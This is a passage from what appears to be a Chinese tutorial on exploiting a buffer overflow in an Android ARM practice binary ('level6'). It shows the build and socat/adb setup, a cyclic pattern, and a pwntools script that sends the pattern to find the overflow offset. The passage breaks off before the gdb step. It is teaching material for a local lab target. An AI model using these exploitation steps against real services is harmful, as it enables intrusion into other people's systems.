     
    
    #!bash
    ndk-build
    adb push libs/armeabi/level6 /data/local/tmp/
    adb shell
    cd /data/local/tmp/
    ./socat TCP4-LISTEN:10001,fork EXEC:./level6
    adb forward tcp:10001 tcp:10001
    

现在我们尝试连接一下：

    
    
    #!bash
    $ nc 127.0.0.1 10001
    Hello, World
    

发现工作正常。OK，那么我们开始进行BOF吧。

和之前的x86一样，我们先用pattern.py来确定溢出点的位置。我们用命令：

    
    
    #!bash
    python pattern.py create 150 
    

来生成一串测试用的150个字节的字符串：

    
    
    #!bash
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
    

然后我们写一个py脚本来发送这串数据。

    
    
    #!python
    #!/usr/bin/env python
    from pwn import *
    
    #p = process('./level6')
    p = remote('127.0.0.1',10001)
    
    p.recvuntil('\n')
    
    raw_input()
    
    payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9"
    
    p.send(payload)
    
    p.interactive()
    

但因为我们需要获取崩溃时pc的值，所以在发送数据前，我们先使用gdb加载上level6。

我们先在电脑上运行python脚本：
